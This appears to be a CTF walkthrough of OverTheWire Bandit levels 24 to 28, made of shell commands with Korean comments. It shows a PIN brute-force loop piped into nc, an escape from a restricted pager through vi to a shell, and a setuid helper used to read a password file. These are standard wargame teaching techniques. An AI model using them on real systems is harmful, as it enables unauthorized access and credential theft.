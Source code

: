 ## level 24 -> level 25
```shell
nc localhost 30002
[password] [xxxx] (enter)
exit
cd /tmp
mkdir hacksin
cd hacksin
vi test.sh
# #!/bin/bash
# 
# for i in {0000..9999}
# do
#   echo "goiergiowrhr02ur034ur $i"
# done

./test.sh | nc localhost 30002 | grep -v "Wrong"
```

## level 25 -> level 26
```shell
ls -l
ssh -i bandit26.sshkey bandit26@localhost (-p 2220)
cat /etc/passwd | grep bandit26
cat /usr/bin/showtext
# more이 실행중인 상태에서 vi를 실행시킬 수 있다. vi에서 명령어를 실행할 수 있다.
# 화면을 줄어 more를 실행 -> vi 실행 -> 명령어 사용
# more -> v -> :set shell=/bin/bash -> :sh
# Login!!
# bandit26으로 들어갈 때 위의 방식으로 들어가야 함
```

## level 26 -> level 27
```shell
ls -al
./bandit27-do
./bandit27-do /bin/sh
cat /etc/bandit_pass/bandit27
```
```shell
./bandit27-do cat /etc/bandit_pass/bandit27
```

## level 27 -> level 28
```shell
cd /tmp
mkdir hacksin
cd hacksin
git clone ssh://bandit27....
ls
cd repo
cat README
```
